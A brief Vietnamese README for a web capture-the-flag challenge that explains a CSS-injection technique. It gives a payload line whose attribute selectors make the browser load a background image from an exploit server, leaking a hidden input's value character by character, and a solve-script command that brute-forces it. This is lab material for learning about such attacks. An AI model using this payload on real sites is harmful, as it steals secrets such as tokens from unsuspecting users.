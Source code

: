 # Web-Chall

# Build 
./docker-build.sh

# Ý tưởng
- inject file shell.css từ server exploit

# Cách giải
- Do trong file flag.html (hint nằm tại index.html) có thẻ link với server exploit, mục đích lấy được flag nằm tại thẻ input với name=flag và value là flag
- Payload trong file shell.css
> `input[name=flag][value^="F"] {background-image: url("ip?flag=F");}`
- Server kiểm tra trong thẻ input với name=flag và value được so khớp kí tự brute với kí tự trong input, khi so khớp đúng sẽ gọi đến server explot trả về kí tự đúng
> `python solve.py "F" "server-exp"`